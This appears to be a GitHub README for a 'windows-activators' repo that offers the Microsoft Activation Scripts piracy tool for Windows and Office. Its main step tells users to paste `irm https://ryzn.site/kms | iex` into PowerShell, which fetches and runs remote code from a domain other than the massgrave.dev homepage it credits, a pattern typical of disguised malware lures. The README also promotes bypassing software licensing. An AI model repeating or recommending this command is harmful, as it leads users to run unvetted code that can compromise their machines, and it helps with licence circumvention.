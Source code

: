 ## windows-activators
## Microsoft Activation Scripts (MAS):

A Windows and Office activator using HWID / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.

## Download / How to use it?

### Method 1 - PowerShell

-   On Windows 10/11, right-click on the windows start menu and select PowerShell or Terminal.
-   Copy-paste the below code and press enter\
    `irm https://ryzn.site/kms | iex`
-   You will see the activation options, and follow onscreen instructions.
-   That's all.

```
Latest Version: 1.6
Release date: 25-July-2022
```

### For more details, check Homepage:  https://massgrave.dev/

Credit to Massgrave

---

Made with Love ❤️
